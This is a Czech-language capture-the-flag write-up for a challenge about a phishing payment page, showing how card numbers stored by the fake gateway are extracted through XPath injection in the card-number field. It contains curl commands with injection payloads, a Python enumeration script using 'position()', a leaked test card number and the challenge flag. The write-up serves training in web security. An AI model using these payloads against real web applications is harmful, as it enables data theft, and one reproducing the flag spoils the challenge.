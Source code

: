 # Fraudulent e-mail (3)

## Zadání

Hi, packet inspector,

we have a apparently problem with some fraudulent payment gateway (see forwarded e-mail). We suspect that many of our customers have come across this scam.

Identify all card numbers entered into the fraudulent webpage (we have to report incident and its details to CSIRT-TCC).

Download [fraudulent e-mail](fraudulent_e-mail.zip) (MD5 checksum `94c7696bed436cd63a490de4008d2022`).

May the Packet be with you!

## Nápovědy (Hints)

1\. Fraudsters never have time for anything, they usually slack off even validating inputs.

## Řešení

V přiloženém emailu je zdánlivě odkaz na adresu <http://messenger-portal.mysterious-delivery.thecatch.cz>, ale ve skutečnosti vede proklik na <http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8>.

Po vyplnění vymyšleného čísla karty a kliku na `Proceed to Play` se zdánlivě nic nestane:

![ ](Img1.png)

Ve vývojové konzoli prohlížeče je vidět, že se data odeslala metodou `POST` na adresu `http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8` s daty:

`card-holder-name=1111&card-number=1111-1111-1111-1111&card-expires-date=01%2F2022&card-cvv=111&proceed-to-pay=`.

Podle nápovědy by měl útok směřovat na neošetřený vstup (jméno, číslo karty, expirace, cvv, částka).

Protože součástí webové stránky je i validace zadání, budeme pokračovat dále z příkazové řádky. Po zkrácení čísla karty na `1`

`curl "http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8" -d "card-holder-name=1111&card-number=`**`1`**`&card-expires-date=01%2F2022&card-cvv=111&proceed-to-pay="`

se v odpovědi objeví

```html
<p>This card <strong>1</strong> is broken.</p>
```

Modifikace ostatních parametrů nemá na odpověď vliv, takže další útok bude směřovat přes parametr `card-number`. Pokud místo čísla karty `1` vyplníme `1 or 1=1`.

`curl "http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8" -d "card-holder-name=1111&card-number=`**`1 or 1=1`**`&card-expires-date=01%2F2022&card-cvv=111&proceed-to-pay="`

Objeví se v odpovědi číslo karty, kterou už někdo jiný zadal.

```html
<p>This card <strong>4556-1329-8889-9614</strong> is broken.</p>
```

Pokud místo čísla karty `1` vyplníme `'('`.

`curl "http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8" -d "card-holder-name=1111&card-number=`**`'(`**`&card-expires-date=01%2F2022&card-cvv=111&proceed-to-pay="`

Objeví se v odpovědi chybový výpis.

```html
<b>Warning</b>:  SimpleXMLElement::xpath(): Unfinished literal in <b>/var/www/html/index.php</b> on line <b>82</b><br />
```

Z toho je zřejmé, že jsou parametry zpracovány pomocí XPath (viz <https://dev.to/zeyu2001/blind-xpath-injections-the-path-less-travelled-ope>).

Pro získání celého seznamu karet použijeme XPath funkci `position()=...`

Celý proces zautomatizujeme programem [Exploit.py](Exploit.py) a v čísle karty budeme hledat `FLAG{`.

```python
import requests

url = 'http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8'
for i in range(0, 150):
    print(i)
    headers = {'Content-type': 'application/x-www-form-urlencoded'}
    resp = requests.post(url, headers=headers, data='card-holder-name=asdfasdf+qwer&card-expires-date=01%2F2020&card-cvv=111&proceed-to-pay=&card-number=0 or position()='+str(i))
    for line in resp.text.split("\n"):
        if 'FLAG{' in line:
            print(line)
            quit()
```

128\. číslo karty obsahuje hledaný flag

## Flag

`FLAG{0BF0-RREd-vAK3-1Ayi}`
